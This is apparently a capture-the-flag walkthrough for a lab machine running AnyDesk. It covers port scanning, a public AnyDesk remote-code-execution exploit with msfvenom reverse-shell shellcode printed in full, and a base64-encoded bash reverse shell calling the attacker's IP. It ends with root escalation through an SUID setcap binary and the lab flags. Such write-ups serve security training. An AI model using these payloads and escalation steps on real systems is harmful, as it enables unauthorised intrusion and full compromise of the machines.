






## TL;DR

In this challenge we exploit `RCE` on `AnyDesk`, and then move to root using `SUID` bit on `/sbin/setcap`, which let us add `cap_setuid` to python.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



We can see port `22` with ssh, port `7070` with anydesk maybe, and port `40796` with unknown service.
```bash
PORT      STATE SERVICE         REASON         VERSION                                                                                                                                                            
22/tcp    open  ssh             syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)                                                                                                       
| ssh-hostkey:                                                                                                                                                                                                    
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)                                                                                                                                                    
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDA0R7eKVAIQzgsQ1QLoI7zzRYcaNBJ0wZtCbG1n5lR51Jfr2CC6+IVVxzleo0wCtfV9tcgtRXVdrju+29xaBR/Hin16MAf7QM4cY5dt46pgADnbwSXAy8GpnuCT10tTrL27gpKM2ayqmlpnKSxL2daP5uhkuoZCI3EYOvbaoPn
4/u4vKeH64bk/s5zTE2JeIV/CwQnheYc1ZhwiJQD5k11735k+NfhD7pmhNY+QpG6qZNyFZ4APqdktrnDFetksOkC2NF4D8/OOjDsYkmofeIe+2fe01BHO4KFnRrKI3aSNDQdeNIQIL7LgKufgQ+yP0WmRLOThsiwu22jUG/8Ot1f                                      
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)                                                                                                                                                   
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH+EwC6q+M+qEr2TTccTtvcNF7dfougjgrZzZG4ShpTnNo1KXJy6iTnW/al9mxm/ecZVSF45w3Z3IYwAi9nfrdU=                                                
|   256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)                                                                                                                                                 
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBgcqbntpdHoH14/wXi5gysaIvv0hOk+VvCUNmVjhkMQ                                                                                                                                
7070/tcp  open  ssl/realserver? syn-ack ttl 62                                                                                                                                                                    
| ssl-cert: Subject: commonName=AnyDesk Client                                                                                                                                                                    
| Issuer: commonName=AnyDesk Client                                                                                                                                                                               
| Public Key type: rsa                                                                                                                                                                                            
| Public Key bits: 2048                                                                                                                                                                                           
| Signature Algorithm: sha256WithRSAEncryption                                                                                                                                                                    
| Not valid before: 2022-03-23T20:04:30                                                                                                                                                                           
| Not valid after:  2072-03-10T20:04:30                                                                                                                                                                           
| MD5:   3e57:6c44:bf60:ef79:7999:8998:7c8d:bdf0                                                                                                                                                                  
| SHA-1: ce6c:79fb:669d:9b19:5382:8cec:c8d5:50b6:2e36:475b                                                                                                                                                        
| -----BEGIN CERTIFICATE-----                                                                                                                                                                                     
| MIICqDCCAZACAQEwDQYJKoZIhvcNAQELBQAwGTEXMBUGA1UEAwwOQW55RGVzayBD                                                                                                                                                
| bGllbnQwIBcNMjIwMzIzMjAwNDMwWhgPMjA3MjAzMTAyMDA0MzBaMBkxFzAVBgNV                                                                                                                                                
| BAMMDkFueURlc2sgQ2xpZW50MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC                                                                                                                                                
| AQEAvFEAPxFPrh1v6FuKL9k1AiX5ml+soPQ3sfYSr+5y7uJlqwy2C6HZ2Kf83gc0                                                                                                                                                
| MN/+GP4mWpB1LskMHDWf2173Sy8A+EBekxRn05tCs1gyxD19vHvqcorZD9JbN/Mz                                                                                                                                                
| Pq6kEvloUrHNKgkYyYPq3neAZ4RxQSTjAOydR+0aGWiDV4QNdzmKvwaunlvz8zoZ                                                                                                                                                
| Nr+tcI0UnP4jeAC3fSX7XfijPE7ANWaiwm4oVWOgiMXcTDGuJ78WptNJ7/XI+RFT                                                                                                                                                
| lkN8T69uHWLRUyN2YHG7OSK28UExyDShM08t3MyztWQmCtHqQd4hExdZoIkIW9bP                                                                                                                                                
| Qf4QS+mlal0rBYqNkZNXUNeX7QIDAQABMA0GCSqGSIb3DQEBCwUAA4IBAQBe68Tz                                                                                                                                                
| 6xMMwAxJb0xWz7DIK9ffSVEnnBe3Epdi0a76B2I1eu59+DzZu1euw8UAak7i1lL/                                                                                                                                                
| +Yu/i6LfLHzjQuD7MMQUmGRlcsxMTOfYXiSbKAgAd8vt+a24Q8LKDASu8lmLNtj/                                                                                                                                                
| /GglirQnYStt6zb9f4Ud3YpPGDcqfS636YlnFDttmLMapI9GJZs+GTp+ukbxCH9j                                                                                                                                                
| hrhMjE+4d1Le5dFk0K2P2v/m8IMqc52Mkef7XR4CFMC+DOIRp8U3PN1i9rFOLFaE                                                                                                                                                
| FuZmniIJ30KAE+BCCPD+Ozx5cCcA8OYcT/Wyua5pPepP7ryR5lVbZmcAR9ELgzvm                                                                                                                                                
| mSn9KWFRlhAMUQ4V                                                                                                                                                                                                
|_-----END CERTIFICATE-----                         
|_ssl-date: TLS randomness does not represent time                                                       
40769/tcp open  unknown         syn-ack ttl 62
<REDACTED>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


we can add `annie.thm` to our `/etc/hosts`.

### Exploit RCE on AnyDesk to get shell

Since I saw `AnyDesk` on port `7070`, I tried to find some online exploits, I found this [https://www.exploit-db.com/exploits/49613](https://www.exploit-db.com/exploits/49613).

We need to generate shellcode using `msfvenom`:
```bash
┌──(agonen㉿kali)-[~/thm/Annie]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.164.248 LPORT=1337 -b "\x00\x25\x26" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 119 (iteration=0)
x64/xor chosen with final size 119
Payload size: 119 bytes
Final size of python file: 680 bytes
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x7f\xa4\x85"
shellcode += b"\x69\x13\x73\xdc\x2e\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x15\x8d\xdd\xf0\x79"
shellcode += b"\x71\x83\x44\x7e\xfa\x8a\x6c\x5b\xe4\x94\x97"
shellcode += b"\x7d\xa4\x80\x50\xd3\xdb\x78\xd6\x2e\xec\x0c"
shellcode += b"\x8f\x79\x63\x86\x44\x55\xfc\x8a\x6c\x79\x70"
shellcode += b"\x82\x66\x80\x6a\xef\x48\x4b\x7c\xd9\x5b\x89"
shellcode += b"\xce\xbe\x31\x8a\x3b\x67\x01\x1d\xcd\xeb\x46"
shellcode += b"\x60\x1b\xdc\x7d\x37\x2d\x62\x3b\x44\x3b\x55"
shellcode += b"\xc8\x70\xa1\x85\x69\x13\x73\xdc\x2e"
```

I modified the script by a bit, the full script is here:
```py

```

I set up listener:
```bash
nc -nvlp 1337
```

and got the reverse shell:



I pasted the payload from penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```



and grab the user flag:
```bash
annie@desktop:/home/annie$ cat user.txt 
THM{N0t_Ju5t_ANY_D3sk}
```

### Privilege Escalation to Root using SUID on setcap

Using linpeas.sh I found we have SUID bit on `/sbin/setcap`.



So, we can add `cap_setuid` to `/usr/bin/python3.6` and then set our uid to 0, which is root.
```bash
annie@desktop:/home/annie$ /sbin/setcap 'cap_setuid=+ep' /usr/bin/python3.6
annie@desktop:/home/annie$ /usr/bin/python3.6 -c 'import os; os.setuid(0); os.system("whoami;id")'
root
uid=0(root) gid=1000(annie) groups=1000(annie),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```



now, we can execute commands as root, let's add `SUID` to `/bin/bash` and spawn root shell:



```bash
annie@desktop:/home/annie$ /usr/bin/python3.6 -c 'import os; os.setuid(0); os.system("chmod u+s /bin/bash")'
annie@desktop:/home/annie$ /bin/bash -p
\bash-4.4# id
uid=1000(annie) gid=1000(annie) euid=0(root) groups=1000(annie),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
bash-4.4# cat /root/root.txt  
THM{0nly_th3m_5.5.2_D3sk}
```


